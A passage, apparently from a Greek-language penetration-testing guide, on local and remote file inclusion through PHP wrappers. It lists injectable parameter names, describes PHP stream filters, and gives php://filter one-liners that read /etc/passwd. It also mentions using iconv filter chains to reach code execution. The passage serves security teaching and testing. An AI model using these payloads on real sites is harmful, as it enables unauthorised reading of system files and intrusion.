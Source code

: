 ```
?show={payload}
?doc={payload}
?site={payload}
?type={payload}
?view={payload}
?content={payload}
?document={payload}
?layout={payload}
?mod={payload}
?conf={payload}
```
## LFI / RFI χρησιμοποιώντας PHP wrappers & πρωτόκολλα

### php://filter

Οι φίλτροι PHP επιτρέπουν την εκτέλεση βασικών **λειτουργιών τροποποίησης στα δεδομένα** πριν διαβαστούν ή γραφούν. Υπάρχουν 5 κατηγορίες φίλτρων:

* [String Filters](https://www.php.net/manual/en/filters.string.php):
* `string.rot13`
* `string.toupper`
* `string.tolower`
* `string.strip_tags`: Αφαιρεί τις ετικέτες από τα δεδομένα (όλα όσα βρίσκονται μεταξύ των χαρακτήρων "<" και ">")
* Σημειώστε ότι αυτό το φίλτρο έχει εξαφανιστεί από τις σύγχρονες εκδόσεις του PHP
* [Conversion Filters](https://www.php.net/manual/en/filters.convert.php)
* `convert.base64-encode`
* `convert.base64-decode`
* `convert.quoted-printable-encode`
* `convert.quoted-printable-decode`
* `convert.iconv.*` : Μετατρέπει σε διαφορετική κωδικοποίηση(`convert.iconv.<input_enc>.<output_enc>`). Για να αποκτήσετε τη **λίστα όλων των κωδικοποιήσεων** που υποστηρίζονται, εκτελέστε στην κονσόλα: `iconv -l`

{% hint style="warning" %}
Καταχρώντας το φίλτρο μετατροπής `convert.iconv.*` μπορείτε να **δημιουργήσετε αυθαίρετο κείμενο**, το οποίο θα μπορούσε να είναι χρήσιμο για να γράψετε αυθαίρετο κείμενο ή να κάνετε μια λειτουργία όπως η συμπερίληψη αυθαίρετου κειμένου. Για περισσότερες πληροφορίες, ελέγξτε [**LFI2RCE μέσω φίλτρων php**](lfi2rce-via-php-filters.md).
{% endhint %}

* [Compression Filters](https://www.php.net/manual/en/filters.compression.php)
* `zlib.deflate`: Συμπιέζει το περιεχόμενο (χρήσιμο αν εξάγετε πολλές πληροφορίες)
* `zlib.inflate`: Αποσυμπιέζει τα δεδομένα
* [Encryption Filters](https://www.php.net/manual/en/filters.encryption.php)
* `mcrypt.*` : Καταργημένο
* `mdecrypt.*` : Καταργημένο
* Άλλοι Φίλτροι
* Εκτελώντας στο php `var_dump(stream_get_filters());` μπορείτε να βρείτε μερικούς **αναπάντεχους φίλτρους**:
* `consumed`
* `dechunk`: αναστρέφει την κωδικοποίηση HTTP chunked
* `convert.*`
```php
# String Filters
## Chain string.toupper, string.rot13 and string.tolower reading /etc/passwd
echo file_get_contents("php://filter/read=string.toupper|string.rot13|string.tolower/resource=file:///etc/passwd");
## Same chain without the "|" char
echo file_get_contents("php://filter/string.toupper/string.rot13/string.tolower/resource=file:///etc/passwd");
## string.string_tags example
echo file_get_contents("php://filter/string.strip_tags/resource=data://text/plain,<b>Bold</b><?php php code; ?>lalalala");
```